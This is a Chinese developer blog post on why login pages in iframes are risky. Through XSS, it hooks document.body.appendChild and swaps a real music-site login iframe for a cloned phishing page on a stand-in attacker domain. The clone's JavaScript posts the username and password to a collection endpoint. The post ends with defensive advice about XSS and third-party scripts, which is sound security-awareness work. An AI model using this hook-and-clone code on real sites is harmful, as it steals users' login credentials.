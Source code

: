 ```yaml
---
title: 「 安全 」从iframe说到万物皆可hook
date: 2019-02-15 17:06:31
tags: Security
---
```

#### 需求
今天遇到有业务要求我们的登录页允许被嵌在 iframe 中以满足导流需求，找安全的大佬们讨论了下，最后给出的结论是：

>如果业务方的代码写的挫了点，有 xss 漏洞的话，坏人完全可以把你本来的 iframe 隐藏掉，自己写个弹框出来，这样的话用户完全无感知地被篡改了，直接输入用户名和密码，信息就被上送到了坏人的服务器。

what？还能这样吗？ 那得写多少代码才能覆盖掉弹窗再伪造一个出来啊！

作为一个小白我算是长见识了。但是经过尝试，其实并不是那么回事。
<!-- more -->
#### 思考
但是作为一个与用户交互最紧密的前端，登录页总是302跳转到新的页面对于用户来说其实是非常不友好的，打断了用户操作，跳过去跳过来的都晕了，如果能够弹窗登录，那抢手机的路上将一气呵成，非常愉快呀！
弹窗登录一般都是 iframe 实现的，因为大家一般都是 sso 登录，也就是说要做出一个通用的框架，所以一般使用 iframe。

我弱弱的说了句，嗯，百度好像也是 iframe 呀，其他也有很多厂商是 iframe 的，这样的问题并不是很严重吧。
没想到大佬们立刻就开始研究百度的弹窗。结论是：
做的很巧妙啊！点击之后才出弹窗，xss 一般都是一开始就进行篡改，但是这种方式的话，坏人没办法获取用户点击【登录】的时机，这样应该没那么容易篡改。

#### 万物皆可hook
听得有点懵，后来才明白，他们就是想hook用户点击登录的click事件。

哈哈，术业有专攻。终于轮到我们前端大展身手的时候了，他们是不知道我们的【万物皆可hook】定理。

千千音乐盒为例：
![](/images/qian1.png)

点击登录之后，弹出了iframe，这时候一般都会有服务器交互，我们先看看chrome devtool的network，但是出现了好多条请求。这时候我们右键单击审查元素，看看iframe的src，其实凭经验来说，这种弹窗一般都是调用document.body.appendChild来添加在页面中，但是有更好的方法来佐证。

![](/images/qian3.png)
重要小tips：network中的Initiator会展示出发出请求的具体代码行数，点击一下就可以定位到具体是哪一行发出了这个请求。代码一般都压缩了的，点击下面的{}就可以格式化代码。果不其然，就是调用了appendChild，再看下html结构，显然是在append在body中的。

感兴趣的可以查看chrome devTool的使用（TODO）。

既然锁定了调用的是document.body.appendChild，那我们就可以放心的hook啦！
核心代码很简单，就是使用了js的call方法。
```js
let append = document.body.appendChild;
document.body.appendChild = function(el) {
  alert('hook success');
  append.call(document.body, el);
}
```
我们成功的hook了document.body.appendChild方法，在执行原来操作方式之前执行了我们的alert。

大佬要求我完整的实现隐藏原来的弹窗，弹出自己实现的弹窗。

那代码量应该不少吧。我们xss只能插入js，插入不了css，即使实现了也应该很丑吧。

no，no，no。

js啥都能插入!

html

```
const fakeIframe = document.createElement('div');
```

css

```
fakeIframe.style= 'border:1px solid #f8f8f8';
```
就是需要写好多dom操作的代码。

or 直接
```
fakeIframe.innerHTML='<iframe allowtransparency="true" style="border:0px none;position:absolute;top:0;left:0; width:100%;height:100%;"
src="//passport.taihe.com/v2/web/popLogin.html?target=pop&amp;u=https%3A%2F%2Fplay.taihe.com&amp;staticPage=https%3A%2F%2Fplay.taihe.com%2Fplayer%2Ftpassjump.html&amp;callback=tpass15504710495271&amp;tpl=baidu_music">
</iframe>';
```
本来打算自己写个iframe 登录页，转念一想，直接把他的页面copy出来算了，美观靠谱又省事儿。
打开//passport.taihe.com/v2/web/popLogin.html，chrome dev tool network，copy出popLogin.html的代码。
加上

```js
$('.tpass-button').on('click', function() {
  $.ajax({
    url: '/badEva/collect',
    type: 'POST',
    data: {
      username: $('.tpass-text-input-userName').val(),
      pwd: $('.tpass-text-input-password').val(),
    },
  })
});
```
部署在自己的server上，得到url如//passport.badeva.com/fakeLogin.html

```js
let append = document.body.appendChild;
document.body.appendChild = function(el) {
  let fakeIframe = document.createElement('div');
  fakeIframe.innerHTML = '<iframe allowtransparency="true" style="border:0px none;position:absolute;top:0;left:0; width:100%;height:100%;" src="//passport.badeva.com/fakeLogin.html" ></iframe>';
}
```
理论上四行代码就可以搞定了。

其实还有很多技术点可以细挖，先不展开说了。

#### 回溯
回想起来，这些思路还是来自于hook极验验证结果时得出来的。

引入了极验的sdk，但是用户每次滑动点选的结果对接入方来说是透明的，但是我们需要这些数据来进行分析，怎么才能得到用户每次验证的结果呢？

大家都说，页面都是你的页面，连个结果都获取不到？？？

计算每次的轨迹？

思考良久，脑子里突然闪过iOS里的method swizzling，具体是干啥的也不记得了，只记得method swizzling 黑魔法。

我的地盘我做主，怎么可能获取不到呢？

脑子里又闪过hook这个词。

对了，他们总是要给服务端结果的啊！hook他们的请求！

跨域只能jsonp，jsonp一般都是document.header.appendChild，轻轻松松得到结果，具体代码你可以自己试着写写。

但是随着时代的进步，极验也换用了CORS来进行跨域，hook Ajax就没有那么容易了。


#### 展望
大佬们很震惊，难道没有别的办法可以防止被hook吗？其实我们还是希望可以使用iframe来提升用户体验的。

但事实上js注入之后，可以做的事儿太多了。弹出iframe绕不过appendChild那些基础API，有xss漏洞就相当于敞开大门让坏人进来。

几乎是防不胜防。

所以更是提醒我们为了安全：

1.要尽量避免xss漏洞，请看这篇（TODO）

2.引入第三方js，一定要注意查看下network中是否有什么不清不楚的接口，偷偷的搜集了某些信息上送给别的服务端。

从这篇文章获取到的，你可以自己总结下。
顺便思考下hook Ajax的方法。

#### 彩蛋
虽然很绝望，但是首先，你需要一个xss漏洞。

大佬们微微一笑，xss漏洞远比你想象的多得多，即使简单的一个登录页就这段时间都检测出来了好多xss漏洞。

iframe白名单这个口子真的不能那么容易就打开呀，公司其实有很多赶工期的项目，开发周期短，代码写成啥样大家都懂，其实很容易出现xss漏洞。